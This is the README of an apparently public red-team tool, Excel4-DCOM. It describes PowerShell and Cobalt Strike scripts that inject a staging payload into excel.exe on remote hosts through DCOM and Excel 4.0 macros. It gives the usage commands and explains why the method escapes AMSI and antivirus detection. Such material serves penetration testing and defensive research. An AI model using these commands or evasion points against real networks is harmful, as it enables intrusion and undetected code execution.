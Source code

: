 # Excel4-DCOM
PowerShell and Cobalt Strike scripts for lateral movement using Excel 4.0 / XLM macros via DCOM (direct shellcode injection in Excel.exe).

## Technology
Last year, after our presentation at DerbyCon, we released a blog post detailing the abuse of Excel 4.0 macros (also called XLM macros). This is a macro language which is completely different from VBA and which has been embedded within Excel since 1992. The original blog can be found here, which includes a process injection sample: https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

It turns out that Excel 4.0 macros are also exposed to DCOM via the ExecuteExcel4Macro method. We modified our process injection XLM macro sample to work on remote hosts as well via DCOM and we hereby release it in PowerShell and Cobalt Strike script versions.

## Usage
**Cobalt Strike version**

`Excel4-DCOM <targethost> <listener>`

This will inject a x86 staging payload into excel.exe on the target host. Make sure to execute this from a 32 bit beacon (which can be running on a 64 bit system).

**PowerShell version**

`Invoke-Excel4DCOM -ComputerName <target> -Payload <payload location>`

This will inject a x86 staging payload into excel.exe on the target host. Make sure to execute this from a 32 bit PowerShell host (%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe). 

## Why would I use this method over lateral movement method XYZ?
A big plus for this method is that it does direct shellcode injection into excel.exe via Windows API calls. In contrast to most other lateral movement methods (including practically all DCOM-based ones), this technique does **not** rely on powershell.exe or any other LOLBIN at the target. Hence, this method can be completely *"fileless"*. And as a plus, AMSI only works for VBA macros and not for XLM, making this method very difficult to detect by AV.

## What are the disadvantages of this method?
Firstly, this method is slow. The Cobalt Strike staging payload (roughly 800 bytes) requires about 1 to 2 minutes to be injected in a remote host. Note that this is mostly due to the Proof of Concept implementation which injects the payload byte-by-byte in order to avoid XLM macro line-length constraints. It should be possible to do this in chunks of 10 bytes, while still remaining under XLM line-length limits. I just need to find some time to brush up my code. :-)

Secondly, due to XLM data type constraints (read our blog for details), this method only targets 32 bit installs of Excel.exe - which fortunately is the vast majority of installations. Note that x86 installs on x64 systems are fine. This also means that you should execute this method from a 32 bit PowerShell host or beacon.

## Authors
Stan Hegt (@StanHacked)

Special thanks to Philip Tsukerman (@PhilipTsukerman) for pointing out to me that Excel 4.0 macros are exposed via DCOM.
